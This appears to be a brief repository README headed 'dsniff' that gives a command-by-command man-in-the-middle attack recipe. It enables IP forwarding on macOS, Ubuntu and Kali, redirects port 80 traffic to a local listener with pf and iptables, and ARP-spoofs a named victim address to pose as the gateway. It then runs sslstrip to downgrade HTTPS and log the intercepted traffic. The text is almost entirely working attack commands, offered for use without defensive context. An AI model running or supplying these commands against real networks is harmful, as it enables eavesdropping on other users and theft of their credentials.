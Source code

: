 # dsniff

## enable ports forward

on mac

	sudo sysctl -w net.inet.ip.forwarding=1
	sudo sysctl -w net.inet.ip.fw.enable=1
	sudo sysctl -w net.inet.fw.verbose=1
	sudo sysctl -w net.inet.ip.fw.verbose=1

on ubuntu

	vim /etc/sysctl.conf

change net.ipv4.ip_forward=0 to net.ipv4.ip_forward=1 

enable it

	sysctl -p

on kali

	echo 1 > /proc/sys/net/ipv4/ip_forward

## port redirect

on mac <a href="https://developer.apple.com/library/mac/documentation/Darwin/Reference/ManPages/man5/pf.conf.5.html" >pf</a> 

	vim /etc/pf.conf

set configuration

	rdr pass on inet en0 proto { tcp, udp } from any to any port 80 -> 127.0.0.1 port 8000

enable it 

	pfctl -v -n -f /etc/pf.conf
	pfctl -f /etc/pf.conf

on ubuntu <a href="https://help.ubuntu.com/community/IptablesHowTo">iptables</a>

enable iptables

	modprobe ip_tables

port redirect

	iptables -t nat -A PREROUTING -d *.*.*.* -p tcp --dport 80 -j DNAT --to-destination 127.0.0.1:8000

check

	iptables -t nat --list


delete

	iptables -t nat -D PREROUTING 1

## arp spoof

spoof machine with ip 192.168.0.49 on mac address of 192.168.0.1 by mac address of en0

	sudo arpspoof -i en0 -t 192.168.0.49 192.168.0.1

## ssl strip

	sslstrip -a -l 8000 -w sslstrip.log
	tail -f sslstrip.log

